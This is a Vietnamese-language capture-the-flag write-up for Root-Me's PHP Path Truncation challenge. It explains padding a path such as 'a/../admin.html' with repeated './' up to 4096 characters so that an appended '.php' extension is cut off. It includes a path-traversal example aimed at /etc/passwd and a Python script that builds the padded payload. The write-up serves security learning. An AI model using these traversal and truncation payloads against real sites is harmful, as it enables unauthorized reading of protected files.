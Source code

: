 # [PHP - Path Truncation](https://www.root-me.org/en/Challenges/Web-Server/PHP-Path-Truncation)
Challenge có Đường link dẫn đến 2 chỉ mục này là:
```url
http://challenge01.root-me.org/web-serveur/ch35/index.php?page=home --> 200
http://challenge01.root-me.org/web-serveur/ch35/admin.html -->403
```
Ý tưởng đầu tiên đó là khai thác tham số truyền vào `page` để đọc file `admin.html`     
Có vẻ như trang Web đã được lập trình tự động thêm `.php` vào sau tham số page nhận được từ request.
```exampe
home ----> home.php
```
<b>Path Truncation</b> là thuật cắt bớt đường dẫn để bỏ qua phần nối của phần mở rộng tệp. Điều này dẫn tới câu hỏi là một đường dẫn tuyệt đối có độ dài bao nhiêu ? Vì có thể thêm các kí tự không có nghĩa vào để đường dẫn đạt tối đa và —> Bypass       
Không thể tấn công bằng đường dẫn tới `admin.html` được mà phải là một đường dẫn không có thực.
```
VD:
../../../etc/passwd    ----> No
a/../../../etc/passwd  ----> Yes

Thử challenge với path:
a/../admin.html
```
Độ dài tối đa của một đường dẫn là `4096` kí tự và `a/../admin.html` gồm 15 kí tự. Vậy cần 4081 kí tự không có nghĩa chèn vào đường dẫn.        
Có thể thấy trong đường dẫn các kí tự sau đều trả về thư mục hiện tại.
```
a/../admin.html/./././././    =     a/../admin.html
```
Code
```python
import os

# Đường dẫn cơ sở của bạn
base_path = "a/../admin.html/"

# Độ dài mục tiêu của đường dẫn
TARGET_LENGTH = 4096

# Tính toán số ký tự padding cần thêm
padding_length = TARGET_LENGTH - len(base_path)

# Tạo chuỗi padding bằng cách lặp lại './' và thêm ký tự cuối cùng nếu cần
num_repeats = padding_length // 2
remainder_char = "." if padding_length % 2 == 1 else ""

# Tạo chuỗi padding
padding = "./" * num_repeats + remainder_char

# Kết hợp đường dẫn cơ sở và padding
long_path = base_path + padding

# In độ dài của đường dẫn đã tạo để xác minh
print(f"Độ dài đường dẫn: {len(long_path)} ký tự")
print("---")
# In toàn bộ đường dẫn mà không bị cắt ngắn
print(f"Đường dẫn dài đã tạo: \n{long_path}")
print("---")

# Chuẩn hóa đường dẫn bằng os.path.normpath()
normalized_path = os.path.normpath(long_path)

# In đường dẫn đã chuẩn hóa để chứng minh kết quả cuối cùng
print(f"Đường dẫn sau khi chuẩn hóa: {normalized_path}")

```
Sau đó sửu dụng Burp Suite để sửa Request gửi lên. để lấy flag.